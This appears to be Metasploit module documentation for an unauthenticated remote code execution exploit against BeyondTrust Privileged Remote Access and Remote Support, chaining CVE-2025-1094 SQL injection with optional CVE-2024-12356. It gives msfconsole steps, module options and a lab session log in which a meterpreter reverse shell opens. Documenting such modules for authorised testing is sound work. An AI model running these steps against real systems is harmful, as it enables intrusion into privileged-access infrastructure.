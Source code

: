 ## Vulnerable Application
This exploit achieves unauthenticated remote code execution against BeyondTrust Privileged Remote
Access (PRA) and Remote Support (RS), with the privileges of the site user of the targeted BeyondTrust
product site. This exploit targets PRA and RS versions `24.3.1` and below.

## Testing
This exploit was tested against a vulnerable BeyondTrust Remote Support target running version `24.1.2`. To install
a virtual appliance, follow [this documentation](https://docs.beyondtrust.com/rs/docs/va-install). You will first need
to acquire the relevant software packages.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/http/beyondtrust_pra_rs_unauth_rce`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp`
5. `set LHOST eth0`
6. `set LPORT 4444`
7. `check`
8. `exploit`

## Options

### TargetCompanyName
If set, use this name value to identify the company name of the deployed site (e.g. `mytestcompany`).
By default, this is auto discovered.

### TargetServerFQDN
If set, use this FQDN value to identify the FQDN of the deployed site (e.g. `support.mytestcompany.com`).
By default, this is auto discovered.

### LeverageCVE_2024_12356
By default, this exploit does not leverage the argument injection vulnerability CVE-2024-12356, and instead exploits the
SQLi vulnerability CVE-2025-1094 directly. Enabling this option will cause this exploit to leverage CVE-2024-12356 during
the exploitation of the SQLi vulnerability CVE-2025-1094. In either case the SQLi vulnerability CVE-2025-1094 is leveraged
to achieve RCE.

## Scenarios

### Default

```
msf exploit(linux/http/beyondtrust_pra_rs_unauth_rce) > show options 

Module options (exploit/linux/http/beyondtrust_pra_rs_unauth_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.105   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.
                                       html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      usKuEPuSzgnx     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /var/tmp         yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf exploit(linux/http/beyondtrust_pra_rs_unauth_rce) > check
[*] 192.168.86.105:443 - The target appears to be vulnerable. Detected version 24.1.2
msf exploit(linux/http/beyondtrust_pra_rs_unauth_rce) > exploit
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected version 24.1.2
[*] Using company name: mytestcompany
[*] Sending stage (3045380 bytes) to 192.168.86.105
[*] Meterpreter session 1 opened (192.168.86.122:4444 -> 192.168.86.105:10104) at 2025-01-31 10:51:38 +0000

meterpreter > getuid
Server username: mytestcompany
meterpreter > sysinfo
Computer     : 192.168.86.105
OS           : Gentoo 2.14 (Linux 6.1.76-bt)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

